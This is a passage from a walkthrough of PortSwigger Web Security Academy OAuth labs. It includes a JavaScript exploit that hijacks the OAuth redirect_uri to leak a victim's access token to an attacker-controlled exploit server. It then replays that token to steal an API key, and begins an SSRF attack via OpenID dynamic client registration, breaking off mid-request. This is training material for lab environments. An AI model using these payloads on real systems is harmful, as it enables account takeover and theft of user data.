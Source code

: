 14. You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. For example:
```
<script>
    if (!document.location.hash) {
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
15. To test that the exploit works, store it and then click "View exploit". The page should appear to refresh, but if you check the access log, you should see a new request for ``GET /?access_token=[...]``.
16. Deliver the exploit to the victim, then copy their access token from the log.
17. In Repeater, go to the ``GET /me`` request and replace the token in the ``Authorization: Bearer`` header with the one you just copied. Send the request. Observe that you have successfully made an API call to fetch the victim's data, including their API key.
18. Use the "Submit solution" button at the top of the lab page to submit the stolen key and solve the lab.

## SSRF via OpenID dynamic client registration
Reference: https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration


### Solution
1. While proxying traffic through Burp, log in to your own account. Browse to ``https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/.well-known/openid-configuration`` to access the configuration file. Notice that the client registration endpoint is located at ``/reg``.
2. In Burp Repeater, create a suitable ``POST`` request to register your own client application with the OAuth service. You must at least provide a ``redirect_uris`` array containing an arbitrary whitelist of callback URIs for your fake application. For example:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```
3. Send the request. Observe that you have now successfully registered your own client application without requiring any authentication. The response contains various metadata associated with your new client application, including a new ``client_id``.
4. Using Burp, audit the OAuth flow and notice that the "Authorize" page, where the user consents to the requested permissions, displays the client application's logo. This is fetched from ``/client/CLIENT-ID/logo``. We know from the OpenID specification that client applications can provide the URL for their logo using the ``logo_uri`` property during dynamic registration. Send the ``GET /client/CLIENT-ID/logo`` request to Burp Repeater.
5. From the "Burp" menu, open the Burp Collaborator client and click "Copy to clipboard" to copy your Collaborator URL. Leave the Collaborator dialog open for now.
6. In Repeater, go back to the ``POST /reg`` request that you created earlier. Add the ``logo_uri`` property and paste your Collaborator URL as its value. The final request should look something like this:
```
POST /reg HTTP/1.1
Host: YOUR-LAB-OAUTH-SERVER.web-security-academy.net
Content-Type: application/json
```
